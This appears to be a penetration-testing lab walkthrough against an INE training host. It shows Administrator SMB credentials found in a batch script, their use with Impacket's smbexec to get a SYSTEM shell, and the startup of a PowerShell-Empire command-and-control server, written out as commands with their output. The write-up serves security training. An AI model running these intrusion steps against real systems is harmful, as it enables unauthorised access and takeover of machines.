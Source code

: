 _Exploring a discovered HTTP service which reveals a batch script indicating potential SMB credentials._

`firefox http://demo.ine.local:4983/ &`:
```
@echo off net use "\\fileserver\C$" /user:Administrator abc_123321!@# if exist "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ( echo "Copying errors\..." copy "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\ del "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ) else ( echo "No errors!" ) net use "\\fileserver\C$" /delete ←
```

_Using smbexec to gain a shell on the `demo.ine.local` machine._

`smbexec.py 'Administrator:abc_123321!@#'@demo.ine.local`:
```
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Verifying that we have SYSTEM level access on the target machine._

`whoami`:
```
nt authority\system
```

<span style="color: #4caf50;">PowerShell-Empire Server</span>.

_Starting the PowerShell-Empire server to manage agents and listeners._

`sudo powershell-empire server`:
```
[*] Loading default config
[*] Setting up database.
[*] Adding default user.
[*] Adding database config.
[*] Generating random staging key
[*] Adding default bypasses.
[*] Adding default keyword obfuscation functions.
[*] Loading stagers from: /usr/share/powershell-empire/empire/server/stagers/
[*] Loading modules from: /usr/share/powershell-empire/empire/server/modules/
[*] Loading listeners from: /usr/share/powershell-empire/empire/server/listeners/
[*] Loading malleable profiles from: /usr/share/powershell-empire/empire/server/data/profiles
[*] Searching for plugins at /usr/share/powershell-empire/empire/server/plugins/
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire C# server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading websockify server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire reverseshell server plugin
[*] Registering plugin with menu...
[*] Empire starting up...
[*] Starting Empire RESTful API on 0.0.0.0:1337 ←
[*] Starting Empire SocketIO on 0.0.0.0:5000
[*] Testing APIs
[+] Empire RESTful API successfully started
[+] Empire SocketIO successfully started
[*] Cleaning up test user

...

```